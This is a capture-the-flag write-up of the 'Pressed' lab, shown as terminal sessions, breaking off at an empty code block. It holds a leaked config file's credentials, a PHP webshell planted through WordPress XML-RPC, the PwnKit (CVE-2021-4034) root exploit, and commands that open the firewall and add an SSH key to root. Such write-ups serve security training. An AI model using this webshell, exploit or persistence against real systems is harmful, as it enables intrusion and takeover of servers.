






# Pressed


```bash
TARGET=10.10.11.142
```

```bash
$ sudo nmap -v -sC -sV $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-25 03:34 PDT
...
Nmap scan report for 10.10.11.142
Host is up (0.094s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.9
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: UHC Jan Finals &#8211; New Month, New Boxes
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

NSE: Script Post-scanning.
...
```

```bash
$ curl -I $TARGET          
HTTP/1.1 200 OK
Date: Wed, 26 Jun 2024 09:34:59 GMT
Server: Apache/2.4.41 (Ubuntu)
Link: <http://pressed.htb/index.php/wp-json/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```

```bash
$ cat /etc/hosts | grep $TARGET
10.10.11.142    pressed.htb
```

```bash
$ wpscan --url http://pressed.htb/ --api-token ...SNIP... 

...

[+] XML-RPC seems to be enabled: http://pressed.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

...

[i] Config Backup(s) Identified:

[!] http://pressed.htb/wp-config.php.bak
 | Found By: Direct Access (Aggressive Detection)

...
```

We can see here that there is a WordPress backup file available to download

```bash
$ wget http://pressed.htb/wp-config.php.bak                                               
--2024-06-27 04:36:24--  http://pressed.htb/wp-config.php.bak
Resolving pressed.htb (pressed.htb)... 10.10.11.142
Connecting to pressed.htb (pressed.htb)|10.10.11.142|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3194 (3.1K) [application/x-trash]
Saving to: ‘wp-config.php.bak’

wp-config.php.bak            100%[===========================================>]   3.12K  --.-KB/s    in 0s      

2024-06-27 04:36:24 (299 MB/s) - ‘wp-config.php.bak’ saved [3194/3194]
```

```bash
$ cat wp-config.php.bak 
...
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'uhc-jan-finals-2021' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
...
define( 'AUTH_KEY',         '3MYXll40,8gfj_jX4!3J(278f1(SGEZ+v]#w]Bu<PrstLLHEZig,MJB#t E2pU2t' );
define( 'SECURE_AUTH_KEY',  'QPkQ%%h&5$3$C;Z}2N!LKz.O 57i2U.582Gy{C=$XV_(jJz~3gC=*nKP//{v{?n<' );
define( 'LOGGED_IN_KEY',    'rp}RE/3-_3OF%./6PH` 1zbCy#H22NRH,ETR(c2*Qlu&W>lW|::4T[iFx%W|%[hA' );
define( 'NONCE_KEY',        '#%s&zIE/mSuvN{+2]^n;21]|u;gmP6!-ihyCn91j{/.KRGbg8}{3C%kZ#$(i&bc-' );
define( 'AUTH_SALT',        ',7BVMi:h`][Q/3j8tHN*EjKk,jY|+hm.3OnjYS A$ArIx7B z]WzLJ$Tc7</s`td' );
define( 'SECURE_AUTH_SALT', ']s_RJ,%OLa.}_8wP Qeu9WJUhJ2Zd2I%>T5R#f{8op9:Hn??}7{ZJ*.K.t/{lVl0' );
define( 'LOGGED_IN_SALT',   'wwQj(p&1I8zAK!2lhR[xg.Vt`qeh|2R}HMz?~TuQ9QE*@iy?@*?pDV;[4BL9*n#W' );
define( 'NONCE_SALT',       '[Wv%%EDN<b/a_</u|snqMQ q)xPW8GyB4WAw f+1k2|IFbu*7#U(g-# l{Kw n6Z' );
...
```

We can try the database credentials on the WP admin page - `http://pressed.htb/wp-login.php`



But it does not work.

However, as we can see, the password ends with what seems to be a year `uhc-jan-finals-2021`, and trying other years at the end seem to work - `...2022`. But the problem here now is that the site asks for an `OTP` and gives only 3 attempts. We don't have it.



We don't have much from the password using the web interface. But we know that `XML-RPC` is enabled.

```xml
<methodCall>
    <methodName>system.listMethods</methodName>
</methodCall>
```

```bash
$ curl \
  --data "<methodCall><methodName>system.listMethods</methodName></methodCall>" \
  http://pressed.htb/xmlrpc.php
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>htb.get_flag</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
...
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

The `htb.get_flag` ones seems related to the lab here :-)

```xml
<methodCall>
    <methodName>htb.get_flag</methodName>
</methodCall>
```

```bash
$ curl \
  --data "<methodCall><methodName>htb.get_flag</methodName></methodCall>" \
  http://pressed.htb/xmlrpc.php
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <string>5fb022063f63b6c5a61984fb4baececd
</string>
      </value>
    </param>
  </params>
</methodResponse>
```

We can try to interact with i`XML-RPC` using the Python lib [python-wordpress-xmlrpc](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/).

```bash
$ pip install python-wordpress-xmlrpc
Defaulting to user installation because normal site-packages is not writeable
Collecting python-wordpress-xmlrpc
  Downloading python-wordpress-xmlrpc-2.3.zip (19 kB)
  Preparing metadata (setup.py) ... done
Building wheels for collected packages: python-wordpress-xmlrpc
  Building wheel for python-wordpress-xmlrpc (setup.py) ... done
  Created wheel for python-wordpress-xmlrpc: filename=python_wordpress_xmlrpc-2.3-py3-none-any.whl size=16362 sha256=86a4bfdc2edb8ba9bf20c37b0274b70c860de30353bf59485c1c29d84e7dbad9
  Stored in directory: /home/kali/.cache/pip/wheels/c7/0d/e3/8794f21b80d46cbf98199283bf85e75519dbb95546f76957d2
Successfully built python-wordpress-xmlrpc
Installing collected packages: python-wordpress-xmlrpc
Successfully installed python-wordpress-xmlrpc-2.3
```

```bash
$ python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from wordpress_xmlrpc import Client
>>> import wordpress_xmlrpc.methods as wp
>>> wp. (tab)
wp.comments  wp.demo      wp.media     wp.options   wp.pages     wp.posts     wp.users
```

There is an issue with the code, as it is old and Python has evolved, and it seems that the lib `collections` was replaced to `collections.abc`.

```bash
>>> posts_list = client.call(wp.posts.GetPosts())
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/home/kali/.local/lib/python3.11/site-packages/wordpress_xmlrpc/base.py", line 46, in call
    return method.process_result(raw_result)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/home/kali/.local/lib/python3.11/site-packages/wordpress_xmlrpc/base.py", line 128, in process_result
    elif isinstance(raw_result, collections.Iterable):
```

To fix it, I changed the following on `/home/kali/.local/lib/python3.11/site-packages/wordpress_xmlrpc/base.py`

```bash
import sys

from collections.abc import Iterable
...
elif isinstance(raw_result, Iterable):
...
```

Now we can use XML-RPC. Lets try to list all the users of the system.

```bash
from wordpress_xmlrpc import Client
import wordpress_xmlrpc.methods as wp
client = Client('http://pressed.htb/xmlrpc.php', 'admin', 'uhc-jan-finals-2022')
```

```bash
$ python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from wordpress_xmlrpc import Client
>>> import wordpress_xmlrpc.methods as wp
>>> client = Client('http://pressed.htb/xmlrpc.php', 'admin', 'uhc-jan-finals-2022')
>>> client.call(wp.users.GetUsers())
[<WordPressUser: b'admin'>]
```

Only one user is present here - `admin` (we knew it already)

```bash
>>> posts = client.call(wp.posts.GetPosts())
>>> posts
[<WordPressPost: b'UHC January Finals Under Way'>]

>>> dir(posts[0])
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', '_def', 'comment_status', 'content', 'custom_fields', 'date', 'date_modified', 'definition', 'excerpt', 'guid', 'id', 'link', 'menu_order', 'mime_type', 'parent_id', 'password', 'ping_status', 'post_format', 'post_status', 'post_type', 'slug', 'sticky', 'struct', 'terms', 'thumbnail', 'title', 'user']
```

```bash
>>> posts[0].user
'1'

>>> posts[0].id
'1'

>>> posts[0].link
'/index.php/2022/01/28/hello-world/'

>>> posts[0].content
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
```

This seems to be related to WP plugin [PHP Everywhere](https://wordpress.org/plugins/php-everywhere/).

```bash
<!--
wp:php-everywhere-block/php
{
  "code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=",
  "version":"3.0.0"
}
-->
```

```bash
$ echo -n "JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=" | base64 -d
%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E
```

```bash
>>> import urllib
>>> x = "%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E"
>>> urllib.parse.unquote(x)
"<?php  echo(file_get_contents('/var/www/html/output.log')); ?>"
```

Or we can use [CyberChef](https://gchq.github.io/CyberChef/).



This is the post using the PHP Everywhere.



Lets change the content of the post to include a webshell.

```php
<?php
  echo(file_get_contents('/var/www/html/output.log'));
  if ($_SERVER['REMOTE_ADDR'] == '10.10.14.2')
  {
    system($_REQUEST['cmd']);
  }
?>
```



```bash
JTNDP3BocCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC4yJyklMEElMjAlMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUwQT8lM0U=
```

```bash
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC4yJyklMEElMjAlMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
```

```bash
>>> posts[0].content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDP3BocCUwQSUyMCUyMGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTslMEElMjAlMjBpZiUyMCgkX1NFUlZFUiU1QidSRU1PVEVfQUREUiclNUQlMjA9PSUyMCcxMC4xMC4xNC4yJyklMEElMjAlMjAlN0IlMEElMjAlMjAlMjAlMjBzeXN0ZW0oJF9SRVFVRVNUJTVCJ2NtZCclNUQpOyUwQSUyMCUyMCU3RCUwQT8lM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

>>> client.call(wp.posts.EditPost(posts[0].id, posts[0]))
True
```

- [http://pressed.htb/index.php/2022/01/28/hello-world/?cmd=id](http://pressed.htb/index.php/2022/01/28/hello-world/?cmd=id)



```bash
curl --get -s \
  --data-urlencode 'cmd=ls -l' \
  http://pressed.htb/index.php/2022/01/28/hello-world/ |
awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' |
sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
head -n -3
```

```bash
$ cat webshell.sh               
#!/bin/bash

curl --get -s \
  --data-urlencode "cmd=$1" \
  http://pressed.htb/index.php/2022/01/28/hello-world/ |
awk '/<\/table>/{flag=1;next}/<p><\/p>/{flag=0}flag' | 
sed 's/&#8211;/--/g' | sed 's/&#8212;/---/g' |
head -n -3
```

```bash
$ bash webshell.sh 'ls -lha'
total 208K
drwxr-xr-x 1 www-data root      638 Jul  1 06:23 .
drwxr-xr-x 1 root     root       24 Jan 31  2022 ..
-rw-r--r-- 1 root     root     4.0K Jan 31  2022 .wp-config.php.swp
-rw-r--r-- 1 www-data nogroup   405 Feb  6  2020 index.php
-rw-r--r-- 1 www-data nogroup   20K Jan  1  2022 license.txt
-rw-r--r-- 1 root     root      674 Jul  1 11:10 output.log
-rw-r--r-- 1 www-data nogroup  7.3K Dec 28  2021 readme.html
-rw-r--r-- 1 www-data nogroup  7.0K Jan 21  2021 wp-activate.php
drwxr-xr-x 1 www-data nogroup  2.8K Jan 28  2022 wp-admin
-rw-r--r-- 1 www-data nogroup   351 Feb  6  2020 wp-blog-header.php
-rw-r--r-- 1 www-data nogroup  2.3K Nov  9  2021 wp-comments-post.php
-rw-r--r-- 1 www-data nogroup  3.0K Dec 14  2021 wp-config-sample.php
-rw-r--r-- 1 www-data root     3.2K Jan 28  2022 wp-config.php
-rw-r--r-- 1 root     root     3.2K Jan 31  2022 wp-config.php.bak
drwxr-xr-x 1 www-data nogroup    72 Jul  1 06:23 wp-content
-rw-r--r-- 1 www-data nogroup  3.9K Aug  3  2021 wp-cron.php
drwxr-xr-x 1 www-data nogroup  8.9K Jan 25  2022 wp-includes
-rw-r--r-- 1 www-data nogroup  2.5K Feb  6  2020 wp-links-opml.php
-rw-r--r-- 1 www-data nogroup  3.9K May 15  2021 wp-load.php
-rw-r--r-- 1 www-data nogroup   47K Jan  4  2022 wp-login.php
-rw-r--r-- 1 www-data nogroup  8.4K Sep 22  2021 wp-mail.php
-rw-r--r-- 1 www-data nogroup   23K Nov 30  2021 wp-settings.php
-rw-r--r-- 1 www-data nogroup   32K Oct 25  2021 wp-signup.php
drwxr-xr-x 1 www-data www-data   62 Jan 28  2022 wp-snapshots
-rw-r--r-- 1 www-data nogroup  4.7K Oct  8  2020 wp-trackback.php
-rw-r--r-- 1 www-data nogroup  3.2K Jun  8  2020 xmlrpc.php
```

When trying to get a reverse shell, we see that we never get a connection back. If we enumerate iptables, we see that the outbound to us it blocked.

```bash
$ bash webshell.sh 'iptables --version'
iptables v1.8.4 (legacy)

$ bash webshell.sh 'iptables --verbose --list --numeric'
```

There is no output from `iptables` when running with our current user.

However, we can read its config files.

```bash
$ bash webshell.sh 'ls -lha /etc/iptables'
total 8.0K
drwxr-xr-x 1 root root   32 Jan 31  2022 .
drwxr-xr-x 1 root root 3.1K Feb  1  2022 ..
-rw-r--r-- 1 root root  436 Jan 31  2022 rules.v4
-rw-r--r-- 1 root root  177 Jan 31  2022 rules.v6
```

We see here that it is only accepting connections (INPUT) on port 80, and letting go out (OUTPUT) pkgs com pre established connections. It does not allow us to return info from a request coming from inside the machine.

```bash
$ bash webshell.sh 'cat /etc/iptables/rules.v4'
# Generated by iptables-save v1.8.4 on Mon Jan 31 23:19:19 2022
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A OUTPUT -p tcp -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -o lo -j ACCEPT
COMMIT
# Completed on Mon Jan 31 23:19:19 2022
```

## [CVE-2021-4034](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2021-4034) - PwnKit

```bash
$ bash webshell.sh 'which pkexec'
/usr/bin/pkexec

$ bash webshell.sh 'ls -lha /usr/bin/pkexec'
-rwsr-xr-x 1 root root 23K Jul 14  2021 /usr/bin/pkexec


$ bash webshell.sh '/usr/bin/pkexec --version'
pkexec version 0.105
```

As the vulnerability was reported at the end of 2021, our version from July 2021 has a high probability to be vulnerable.

Lets download PoC from GitHub and compile in our machine.

```bash
$ wget https://github.com/arthepsy/CVE-2021-4034/raw/main/cve-2021-4034-poc.c                         
--2024-06-27 09:57:38--  https://github.com/arthepsy/CVE-2021-4034/raw/main/cve-2021-4034-poc.c
...
Saving to: ‘cve-2021-4034-poc.c’
cve-2021-4034-poc.c              100%[==========================================================>]   1.24K  --.-KB/s    in 0s      

2024-06-27 09:57:39 (22.7 MB/s) - ‘cve-2021-4034-poc.c’ saved [1267/1267]
```

```bash
$ cat cve-2021-4034-poc.c 
...

char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
        "       exit(0);\n"
        "}";

int main(int argc, char *argv[]) {
...
```

The `system()` line here is the one that is executing commands as `root`. But due to the webshell, we will not be able to see the `/bin/sh` command. Because of that we are going to test it replacing `/bin/sh` to `id`.

```bash
$ cat cve-2021-4034-poc.c
...

char *shell = 
...
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; id\");\n"
...
```

Now we can use `xml-RPC` to upload files to the target as showed on the [documentation](https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples/media.html#uploading-a-file)

```bash
filename = 'cve-2021-4034-poc.c'
with open(filename, 'r') as file: script = file.read()

data = { 'name': 'cve-2021-4034-poc.c', 'bits': script, 'type': 'text/plain'}

client.call(wp.media.UploadFile(data))
```

```bash
>>> filename = 'cve-2021-4034-poc.c'
>>> with open(filename, 'r') as file: script = file.read()
... 
>>> data = { 'name': 'cve-2021-4034-poc.c', 'bits': script, 'type': 'text/plain'}
>>> 
>>> client.call(wp.media.UploadFile(data))
{'attachment_id': '55', 'date_created_gmt': <DateTime '20240702T02:55:59' at 0x7fcc95638bd0>, 'parent': 0, 'link': '/wp-content/uploads/2024/07/cve-2021-4034-poc-1.c', 'title': 'cve-2021-4034-poc.c', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2024/07/cve-2021-4034-poc-1.c', 'id': '55', 'file': 'cve-2021-4034-poc.c', 'url': '/wp-content/uploads/2024/07/cve-2021-4034-poc-1.c'}
```

```bash
$ curl http://pressed.htb/wp-content/uploads/2024/07/cve-2021-4034-poc.c 
...

char *shell = 
        "#include <stdio.h>\n"
        "#include <stdlib.h>\n"
        "#include <unistd.h>\n\n"
        "void gconv() {}\n"
        "void gconv_init() {\n"
        "       setuid(0); setgid(0);\n"
        "       seteuid(0); setegid(0);\n"
        "       system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; id\");\n"
        "       exit(0);\n"
        "}";
...                                                   
```

```bash
$ bash webshell.sh 'pwd'
/var/www/html
```

```bash
$ bash webshell.sh 'ls -lha /var/www/html/wp-content/uploads/2024/07/'
total 4.0K
drwsr-xr-x 1 www-data www-data   38 Jul  2 02:58 .
drwsr-xr-x 1 www-data www-data   48 Jan 28  2022 ..
-rw-r--r-- 1 www-data www-data 1.3K Jul  2 02:58 cve-2021-4034-poc.c
```

```bash
$ bash webshell.sh 'gcc /var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc.c -o /var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc'

$ bash webshell.sh 'ls -lha /var/www/html/wp-content/uploads/2024/07/'     
total 24K
drwsr-xr-x 1 www-data www-data   72 Jul  2 03:01 .
drwsr-xr-x 1 www-data www-data   48 Jan 28  2022 ..
-rwxr-xr-x 1 www-data www-data  17K Jul  2 03:01 cve-2021-4034-poc
-rw-r--r-- 1 www-data www-data 1.3K Jul  2 02:58 cve-2021-4034-poc.c
```

```bash
$ bash webshell.sh '/var/www/html/wp-content/uploads/2024/07/cve-2021-4034-poc'
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

It worked - we can run commands as root.

Now, lets change our exploit code to do a few things for us:

- allow our IP on iptables
- add our ssh key on root authorized_keys file

```bash
iptables -vnL;
iptables -A INPUT -p tcp -s 10.10.14.2 -j ACCEPT;
iptables -A OUTPUT -p tcp -d 10.10.14.2 -j ACCEPT;
iptables -vnL;
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBrS9Ew9Gm/1YkHvy2r2MIUPY2/t1m78Ms2jypk1y9m kali@kali' >> /root/.ssh/authorized_keys
```

```bash
